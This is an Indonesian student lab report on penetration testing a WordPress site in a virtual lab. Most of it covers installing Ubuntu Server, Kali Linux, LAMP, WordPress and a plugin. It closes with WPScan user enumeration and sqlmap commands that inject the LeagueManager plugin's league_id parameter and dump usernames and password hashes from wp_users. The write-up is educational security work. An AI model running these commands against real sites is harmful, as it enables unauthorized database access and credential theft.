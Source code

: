 #### Anggota:
* I Made Fandy Aditya Wirana    5114100026
* Muhammad Fahmi Abdurrahman    5114100028
* I Gede Putu Nobby Aswi Phala  5114100048

### Pendahuluan

  Laporan ini berisi uji penetrasi Wordpress. OS server yang digunakan yaitu Ubuntu Server 16.04.3 dan OS penyerang yang digunakan yaitu Kali Linux 2017.1. Tools yang digunakan untuk menyerang yaitu WPScan, sqlmap.
  
### Dasar Teori

  * #### Ubuntu Server
    Ubuntu Server Edition mendukung arsitektur Intel x86 dan AMD64. Edisi server menyediakan fitur seperti file/print services, web hosting, email hosting, dll. Ada beberapa perbedaan antara edisi server dan edisi desktop walaupun keduanya menggunakan repositori apt yang sama. Perbedaan utamanya adalah, pada edisi server X window environment tidak diinstall scara standar, walaupun antarmuka grafik dapat diinstall secara manual seperti Ubuntu desktop. CD Ubuntu Server Edition juga memiliki pilihan untuk menginstall Ubuntu Enterprise Cloud.
    
  * #### Kali Linux
    Kali Linux adalah distribusi Linux berbasis Debian yang ditujukan untuk uji penetrasi dan pengecekan keamanan. Kali memiliki ratusan tools yang disematkan untuk menjalankan berbagai task yang berkaitan dengan keamanan, seperti uji penetrasi, forensik digital, dan *Reverse Engineering*. Kali Linux dikembangkan oleh Offensive Security, perusahaan yang berkembang di bidang keamanan informasi.
    
  * #### WPScan
    WPScan adalah tools untuk mendeteksi keamanan dari wordpress dengan metode blackbox. Fitur yang dimiliki antara lain:
    * pencacah username
    * multithreaded password bruteforcing
    * pencari versi plugin WordPress dan
    * pencari kerentanan sistem web wordpress
    
  * #### sqlmap
    sqlmap adalah alat pengujian open source yang mendeteksi dan mengeksploitasi kelemahan dalam SQL injection dan mengambil alih server database. Muncul dengan mesin pendeteksi yang hebat, banyak fitur untuk tester penetrasi akhir dan berbagai switch yang bertahan dari sidik jari database, melebihi pengambilan data dari database, untuk mengakses sistem berkas yang mendasarinya dan menjalankan perintah pada sistem operasi melalui sistem out- koneksi band.
    Mendukung  DBMS MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, HSQLDB dan Informix.

### Instalasi Ubuntu Server + OpenSSH Server

  1. Download file instalasi Ubuntu Server dan mount ke virtual machine
      https://www.ubuntu.com/download/server
      
  2. Pilih "*Install Ubuntu Server*"
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-server.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-pwd-server.png)
  4. Set Partition Disk Menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-server.png)
  5. Tunggu instalasi selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-server.png)
  6. Lakukan konfigurasi lainnnya
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/config-taskkel-server.png)
  7. Pilih software yang akan diinstall
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-server.png)
  8. Tunggu instalasi software
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-wait-server.png)
  9. Install Bootloader Grub
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-grub-server.png)
  10. Selesai!!!
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/done-server.png)
### Instalasi Kali Linux
  
  1. Download file instalasi Kali Linux dan mount ke virtual machine
      https://www.kali.org/downloads/

  2. Pilih *Graphical Install*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-kali.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-kali.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-kali.png)
  4. Set Partition Disk menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-kali.png)
  5. Set Disk yang akan dibuat menjadi partisi
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-disk-kali.png)
  6. Set Partition Scheme menjadi *All files in one partition*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-scheme-kali.png)
  7. Tunggu Instalasi Selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-kali.png)
  8. Selesai!!!

### Instalasi LAMP server

  1. Gunakan perintah seperti berikut
     >```sudo tasksel install_lamp-server```
  2. Tunggu file didownload
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/2.PNG)
  3. Set password untuk user root dari mysql
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/3.PNG)
  4. Tunggu instalasi selesai
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4.PNG)
  5. Selesai!!!
    
### Instalasi Wordpress
  1. Dowload Wordpress dengan perintah seperti berikut
  >```wget http://wordpress.org/latest.zip```
  2. Extract file ke /var/www/html
  >```sudo unzip latest.zip -d /var/www/html```
  3. Ganti kepemilikan dan hak akses dari folder wordpress
  >```sudo chown -R www-data:www-data /var/www/html/wordpress///```
  >```sudo chmod -R 775 /var/www/html/wordpress/```
  4. Berikan Port Forwarding Rules ke Vitual Machine agar dapat diakses dari luar
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4-wp.PNG)
  5. Berikan rules firewall di ubuntu server, lalu restart firewall
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/5-wp.PNG)
  6. Buka mysql, lalu buat database dengan nama wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/6-wp.PNG)
  7. Buka halaman depan dari Wordpress, lalu akan ada inisialisasi
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/7-wp.png)
  8. Isi konfigurasi database dengan yang telah dibuat sebelumnya
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/8-wp.png)
  9. Set konfigurasi website
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/9-wp.png)
  10. Selesai!!!
    ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/10-wp.png)

### Instalasi Plugin
   1. Masuk lalu ke menu Plugin -> Add New
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/1-plugin.png)
    2. Pilih file yang akan di upload
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/2-plugin.png)
    3. Upload dan klik Install Now
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/3-plugin.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/3.1-plugin.png)
    4. Tunggu instalasi selesai, lalu aktivasi
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/4-plugin.png)
    5. Selesai!!!
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/5-plugin.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/5.1-plugin.png)
 
### Uji Penetrasi
   * #### WPScan
    1. Lakukan tes dengan cara berikut
    > ```wpscan --url http://192.168.1.1 --enumerate -u```
    2. Jika berhasil akan menampilkan informasi kelemahan plugin
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2.PNG)
    3. Tambahkan data pada LeagueManager pada panel adming di wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3.PNG)
   * sqlmap
    1. Lakukan command di bawah terlebih dahulu untuk mengetahui informasi database
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -p league_id --dbs```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/1-sinj.PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2-sinj.PNG)
    2. Dapatkan informasi tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -D wordpress --tables```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3-sinj.PNG)
    3. Dapatkan informasi kolom pada tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users --columns
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/4-sinj.PNG)
    4. Dapatkan informasi user dan password dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users -C user_login,user_pass --dump
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/5-sinj.PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/6-sinj.PNG)
  
  





### Kesimpulan dan Saran
   Serangan SQL Injection adalah memodifikasi perintah sql dari aplikasi client dengan cara menyisipkan kedalamnya. Dalam hal ini terdapat plugin dari wordpress yang tidak di optimasi querynya, sehingga rentan SQL Injection tersebut. Dengan tools tools tersebut, developer dapat memeriksa keamanan dari plugin dan seisi websitenya, sehingga developer dapat memperbaharui plugin atau mengganti plugin yang tidak aman.
